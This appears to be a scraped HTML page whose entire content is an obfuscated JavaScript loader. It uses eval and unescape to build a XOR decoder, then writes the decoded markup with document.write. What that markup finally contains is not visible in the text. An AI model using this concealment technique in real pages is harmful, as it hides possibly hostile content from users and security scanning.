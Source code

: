 <html>
<head>
</head>
<body>

<script type="text/javascript">
<!-- 
eval(unescape('%66%75%6e%63%74%69%6f%6e%20%68%30%34%36%64%30%37%61%61%33%63%28%73%29%20%7b%0a%09%76%61%72%20%72%20%3d%20%22%22%3b%0a%09%76%61%72%20%74%6d%70%20%3d%20%73%2e%73%70%6c%69%74%28%22%39%38%30%35%32%38%32%22%29%3b%0a%09%73%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%30%5d%29%3b%0a%09%6b%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%31%5d%20%2b%20%22%38%33%37%35%35%32%22%29%3b%0a%09%66%6f%72%28%20%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%73%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%7b%0a%09%09%72%20%2b%3d%20%53%74%72%69%6e%67%2e%66%72%6f%6d%43%68%61%72%43%6f%64%65%28%28%70%61%72%73%65%49%6e%74%28%6b%2e%63%68%61%72%41%74%28%69%25%6b%2e%6c%65%6e%67%74%68%29%29%5e%73%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%29%2b%2d%31%29%3b%0a%09%7d%0a%09%72%65%74%75%72%6e%20%72%3b%0a%7d%0a'));
eval(unescape('%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%68%30%34%36%64%30%37%61%61%33%63%28%27') + '%3b%76%72%7e%6c%6f%26%7d%79%76%63%3b%21%73%64%7e%71%31%6d%73%7c%20%38%24%0b%09%08%09%26%25%20%6a%77%6d%79%26%79%24%0c%0d%0c%0c%25%20%28%26%29%22%64%67%61%6e%6e%71%77%72%6e%6c%29%62%6d%65%6d%63%39%27%74%74%69%28%21%6e%7d%76%76%71%3e%32%36%6c%61%61%6b%6b%28%7d%75%69%66%68%71%29%66%77%6a%31%6d%3e%3c%3a%62%60%3c%3b%3e%35%36%3d%63%3d%34%3e%65%65%67%63%37%3e%3a%60%63%63%3c%62%6d%30%64%3d%35%77%70%6c%64%69%72%69%69%72%70%7e%71%63%6c%3e%40%43%36%75%30%72%7a%60%3d%75%37%62%30%33%36%2b%69%63%60%20%29%3b%0b%0e%0c%0d%23%26%25%20%28%26%26%7b%61%66%69%68%73%2c%64%66%65%65%6f%7b%73%71%6a%60%2c%72%68%7c%62%3a%28%63%78%74%61%76%39%0c%0d%0c%0c%25%20%27%69%78%78%29%66%67%66%6a%6a%74%74%77%66%62%26%77%6d%7e%63%39%27%66%77%73%67%7a%3b%06%08%09%0e%24%23%28%72%29%67%63%6d%6b%60%70%77%73%6a%67%28%76%6d%7f%67%32%26%6c%73%70%63%76%3e%08%09%09%0f%20%28%64%6a%67%6b%6d%76%72%70%6d%62%2a%75%63%7c%6e%38%26%61%75%75%60%71%3b%0a%0a%07%0c%29%22%64%67%61%6e%6e%71%77%72%6e%6c%29%79%73%73%6f%70%68%76%6d%3c%60%67%66%72%6e%70%3b%0b%0e%0c%0d%08%64%66%65%65%6f%7b%73%71%6a%60%2c%75%64%76%62%63%7c%3c%29%6c%77%2b%76%64%77%64%65%71%3d%07%0c%06%08%26%24%24%23%65%60%63%68%69%7a%77%7e%6c%62%2b%61%72%6b%72%74%3f%20%2d%36%39%32%36%34%34%3e%27%08%0d%0a%0a%07%0c%29%22%26%61%75%6f%76%71%3c%25%25%4e%40%4f%44%40%42%39%23%0c%0c%0c%0a%0a%28%26%29%64%77%6a%70%2c%61%60%69%6e%6c%73%3c%29%20%4b%67%68%60%68%21%3b%25%0b%07%0c%06%08%26%24%24%77%60%7b%72%2a%63%64%6d%60%6c%3c%24%61%64%69%77%61%77%3d%28%0d%06%08%09%0e%24%23%27%77%61%7d%74%27%62%6e%67%77%76%67%77%6c%72%68%3f%20%66%77%67%65%3b%24%0f%7c%27%08%09%0f%0f%02%26%29%22%23%6d%76%64%60%77%73%25%7d%28%0d%02%7b%6d%60%70%6b%3d%23%3e%37%30%78%7e%34%22%0d%0f%66%72%75%67%61%77%2f%7d%72%72%6e%61%3e%24%72%70%77%73%62%74%35%26%02%7d%26%0b%0e%0c%0d%23%26%25%25%6e%77%78%76%61%76%24%7e%27%08%0d%63%71%66%72%26%77%6d%7e%63%39%27%38%76%71%3d%28%0d%02%73%76%67%61%68%73%78%3c%25%2e%31%3b%29%09%79%24%0f%23%0c%2d%6f%69%71%71%26%74%22%0d%0b%0e%0c%0d%23%26%25%74%6f%7e%7d%2d%73%6c%67%67%76%7a%3c%25%30%28%36%29%31%36%74%7c%23%22%45%31%3e%39%38%36%34%22%0d%0f%62%72%69%77%29%63%63%67%6d%65%79%3c%24%26%41%6b%60%63%68%20%59%76%7c%22%57%6a%63%21%3a%23%0d%7a%20%03%26%06%08%09%0e%24%23%27%2d%64%69%77%6f%6f%65%73%7f%24%79%23%0c%08%72%62%78%7c%29%7c%6a%65%60%75%7a%3d%33%76%7d%20%38%76%71%22%35%74%7c%23%64%70%71%66%2c%38%76%71%22%36%74%7c%23%34%73%7e%25%63%7b%71%6a%2e%36%74%7c%23%37%73%7e%25%33%78%7e%29%70%61%60%28%33%77%7b%26%35%70%70%26%3a%72%7e%24%76%64%63%2f%36%75%78%28%36%79%7a%26%37%74%7b%27%71%61%61%2c%38%76%71%22%36%74%7c%23%34%73%7e%25%72%6f%62%25%32%76%7c%24%33%77%7b%26%36%70%70%26%7b%65%62%28%34%73%7f%23%36%75%78%28%35%79%7a%26%76%63%67%2b%33%76%7d%20%38%76%71%22%35%74%7c%23%75%64%62%29%30%78%7e%29%32%76%7c%24%30%77%7b%26%77%67%6c%2a%39%72%7e%24%34%73%7f%23%35%75%78%28%74%6e%66%2a%34%74%7b%27%33%76%7d%20%3b%76%71%22%65%77%73%60%3a%23%0d%0e%66%79%68%7d%2d%60%67%6b%68%6b%78%3c%25%22%4a%6a%6a%67%6b%24%55%73%72%23%57%6b%67%2a%26%02%7d%26%0f%24%08%08%09%09%0f%20%28%26%27%70%61%60%6d%6f%76%7a%26%78%20%03%0d%7d%65%7e%70%2b%76%6f%60%62%74%79%32%26%39%22%36%24%37%33%77%7b%26%7e%67%64%6a%78%7b%3b%24%0f%08%61%72%68%71%2f%6e%65%66%69%6a%7f%3e%23%25%41%6a%66%65%65%26%58%72%73%24%55%6d%60%21%26%0e%7f%28%0d%29%09%09%0e%0b%09%27%23%26%2b%79%60%6d%7d%65%6f%68%75%7a%27%7e%26%0e%74%6f%7e%7d%2d%73%6c%67%67%76%7a%3c%35%70%70%26%39%72%7e%24%37%73%7f%23%6f%77%67%6f%68%25%32%76%7c%24%33%77%7b%26%36%70%70%26%60%70%61%63%6a%2f%37%73%7e%25%30%78%7e%29%31%76%7c%24%60%74%74%65%29%30%78%7e%29%32%76%7c%24%30%77%7b%26%6c%72%6f%61%67%2e%36%74%7c%23%37%73%7e%25%33%78%7e%29%70%61%60%28%33%77%7b%26%35%70%70%26%3a%72%7e%24%76%64%63%2f%36%75%78%28%36%79%7a%26%37%74%7b%27%71%61%61%2c%38%76%71%22%36%74%7c%23%34%73%7e%25%72%6f%62%25%32%76%7c%24%33%77%7b%26%36%70%70%26%7b%65%62%28%34%73%7f%23%36%75%78%28%35%79%7a%26%76%63%67%2b%33%76%7d%20%38%76%71%22%35%74%7c%23%75%64%62%29%30%78%7e%29%32%76%7c%24%30%77%7b%26%25%69%7a%61%6e%6c%3b%24%0f%08%61%72%68%71%2f%6e%65%66%69%6a%7f%3e%23%25%41%6a%66%65%65%26%58%72%73%24%55%6d%60%21%3b%25%0b%77%09%03%0d%0c%24%24%23%3b%32%73%71%7b%64%61%379805282%36%32%37%34%31%39%37' + unescape('%27%29%29%3b'));
// -->
</script>
<noscript><i>Javascript required</i></noscript>

</body>
</html>


